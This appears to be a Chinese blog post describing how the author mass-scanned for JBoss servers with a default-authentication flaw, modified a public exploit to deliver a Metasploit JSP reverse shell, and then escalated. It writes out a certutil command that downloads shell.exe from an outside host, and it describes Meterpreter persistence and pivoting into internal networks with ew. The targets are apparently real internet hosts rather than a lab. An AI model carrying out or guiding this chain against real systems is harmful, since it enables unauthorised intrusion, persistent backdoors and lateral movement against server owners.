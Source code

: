 文章缘起于github上的一个jboss利用代码[https://github.com/yuxiaokui/JBoss-Hack](https://github.com/yuxiaokui/JBoss-Hack)
人家还给了一个简单的UIshell界面 不过，好难用的说这个后面再说
这个漏洞就是JBoss的默认身份验证漏洞，都不用登录的说，直接去网上扫就好了
那么问题来了，原作者写的一句话jsp的后门菜刀连不上，蚁剑不支持jsp，这就尴尬了，不过还好人家代码挺少，只能乖乖修改源码去了。
![](https://github.com/0linlin0/Records/blob/master/images/jb1.png?raw=true)
原作者调用了zoomeye的api，然后构造exp，发送get请求，并验证在这里我们可以修改exp，我们强大的msf可以生成payload，用的是 payload/java/jsp_shell_reverse_tcp ，生成的代码不太多，因为漏洞利用的时候需要将代码url编码后放到get请求里，所以这里就悲催了，尽量压缩代码把。msf心比它提供的UIshell界面好用多了。谁让我java很烂呢:(
生成payload并进行url编码，修改exp，然后运行修改后的脚本

![](https://github.com/0linlin0/Records/blob/master/images/jb2.png)

得到存在漏洞的主机列表

![](https://github.com/0linlin0/Records/blob/master/images/jb3.png)


Msf端设置监听端口，等待回连，访问链接，回连成功

![](https://github.com/0linlin0/Records/blob/master/images/jb4.png)

Yes！拿到了webshell，我就想拿meterpreter，首先得上传payload，所以我又去搜，windows命令行下怎么样下载远程文件，得到了好多结果

[http://www.4hou.com/system/8661.html](http://www.4hou.com/system/8661.html)

[http://www.freebuf.com/articles/system/155147.html](http://www.freebuf.com/articles/system/155147.html) 
[结果3](http://wps2015.org/drops/drops/%E4%B8%8B%E8%BD%BD%E6%96%87%E4%BB%B6%E7%9A%8415%E7%A7%8D%E6%96%B9%E6%B3%95.html)

嗯。。我想说搜到了这么多，我只用了一个certutil
在webshell上运行这个命令
certutil.exe -urlcache -split -f https：//a.com/shell.exe
[certutil.exe利用](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84certutil.exe/)
嘻嘻嘻，原谅我的懒惰，剩下的好多看不懂。。。所以以后慢慢唉，总会又用到的时候
所以我再vps上搭建了一个web服务，这样就可以啦，我的meterperter上传上去啦！所以我得到更高级的shell啦，而且还可以是长期的!说到这里，又遇到两个问题：
首先是上出啊的payload免杀的问题，还有是持久后门的问题，这一搜，打开了新世界的大门。这里留个坑，以后好好研究这里的内容。因为我比较幸运，目标上没有任何防护，不涉及到免杀，而且meterpreter自带的持久后门run persistence暂时就蛮好用的，虽然官方不推荐了，不过我们先凑活着用，毕竟只是练练手，嘻嘻。
然后就进入到进入内网的问题了，ew人家更新了（http://rootkiter.com/Termite/）看了人家的视频，真的是好好用，我太菜了，一直不成功，是不是Termite只支持正向socks..应该不会吧，所以只能先用着ew了。。。伤心当中。
关于Termite的使用不成功


![](https://github.com/0linlin0/Records/blob/master/images/jb5.png)


上传成功后msf监听端口，等待回连，回连成功

![](https://github.com/0linlin0/Records/blob/master/images/jb6.png)
